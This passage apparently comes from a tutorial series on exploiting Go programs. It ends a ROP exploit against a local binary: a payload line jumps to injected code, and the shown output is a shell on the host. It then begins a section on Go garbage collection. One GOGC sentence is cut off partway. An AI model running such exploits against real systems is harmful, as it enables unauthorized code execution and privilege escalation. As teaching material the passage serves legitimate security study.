 We send it right after the payload in the resulting python script.


**Step 3: Jump to the code**

Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
address as the next return address:

python
payload += p64(buf)


If we run the final exploit, we get the following output:

shell
johannes@host-pc ~  ./exploitrop.py
[+] Starting local process './main': pid 75369
[*] Switching to interactive mode
 id
uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)



We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
context here. In a next step, we could try to run a local root exploit to escalate privileges.




\section{Part 4}

 Garbage Collection

First, let's quickly go through garbage collection. Go offers memory management to the programmer. It automatically
allocates memory for object instances or values, such as integers, slices, or structs. It also keeps track of whether
those objects are still in use, and frees the memory when they aren't anymore.

The Go garbage collector runs in the background as its own Goroutine. In fact it's several Goroutines. The garbage
collector can be triggered manually by calling runtime.GC(), but usually it runs automatically when the heap doubles
its size. This size threshold can be adjusted with the GOGC environment variable. It is set to a percentage. The
default is 100, meaning the heap has to grow by 100%
would mean that the collection is only started when the heap has grown to three times the previous size. On top of the
size condition there is also a timing condition: as long as the process is not suspended, the garbage collector will run
at least once every two minutes.

